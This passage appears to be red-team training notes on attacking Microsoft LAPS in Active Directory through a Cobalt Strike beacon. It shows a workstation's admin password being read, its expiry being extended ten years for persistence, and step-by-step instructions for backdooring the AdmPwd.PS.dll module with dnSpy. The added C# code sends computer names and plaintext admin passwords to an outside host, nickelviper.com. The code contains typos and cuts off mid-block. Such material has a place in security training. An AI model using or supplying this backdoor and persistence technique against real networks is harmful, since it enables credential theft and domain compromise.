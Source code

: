     beacon> powershell Get-DomainComputer -Identity wkstn-1 -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime
    ms-mcs-admpwdexpirationtime ms-mcs-admpwd 
    --------------------------- ------------- 
             133101494718702551 1N3FyjJR5L18za

[This site](https://www.epochconverter.com/ldap) can translate these timestamps.

To push the expiry out by 10 years, overwrite this value with 136257686710000000 (it's visible to admins and a manual reset will change the password and restore the expiration date). Every computer has delegated access to write to this password field, so we must elevate to SYSTEM on WKSTN-1.

    beacon> run hostname
    wkstn-1
    beacon> getuid
    [*] You are NT AUTHORITY\SYSTEM (admin)
    beacon> powershell Set-DomainObject -Identity wkstn-1 -Set @{'ms-Mcs-AdmPwdExpirationTime' = '136257686710000000'} -Verbose

## LAPS Backdoors

Techniques to backdoor the LAPS admin tooling and copy passwords viewable by an admin. If installed, the LAPS PowerShell modules can be found here:

    beacon> ls
    [*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\
     24kb     fil     05/05/2021 12:04:14   AdmPwd.PS.dll
     5kb      fil     04/28/2021 18:56:38   AdmPwd.PS.format.ps1xml
     4kb      fil     04/28/2021 18:56:38   AdmPwd.PS.psd1
     26kb     fil     05/05/2021 12:04:14   AdmPwd.Utils.dll

The DLLs are written in C# which makes them fairly trivial to download, modify and re-upload:

1. Download AdmPwd.PS.dll and AdmPwd.Utils.dll and sync them to your attacking machine
2. Open AdmPwd.PS.dll with dnSpy.
3. Use the Assembly Explorer to drill down into the DLL, namespaces and classes until you find the GetPassword method (AdmPwd.PS > dmPwd.PS > GetPassword)

This method calls DirectoryUtils.GetPasswordInfo, returning a PasswordInfo object. Click on the name  to see the class definition, which contains properties for ComputerName, DistinguishedName, Password and ExpirationTimestamp. The password is simply the plaintext password that is shown to the admin.

Modify the code to send the plaintext passwords to us over an HTTP GET request. (An irresponsible method to for the real world, since the password is sent unencrypted.)

4. Go back to the GetPassword method, right-click somewhere in the main window and select Edit Method
5. Add a new assembly reference, using the button at the bottom of the edit window (Add Assembly Reference GAC)
6. Search for and add System.Net. This will simply instantiate a new WebClient and call the DownloadString method, passing the computer name and password in the URI:

        using System.net;
        ...
        // Inside the foreach in ProcessRecord():
        // begin backdoor
        using (var client = new webclient())
        {
          client.BaseAddress = "http://nickelviper.com";
          try
          {
            client.DownloadString($"?computer={passwordInfo.ComputerName}&pass=[passwordInfo.Password}");
          }
          catch
          {
            // nop
          }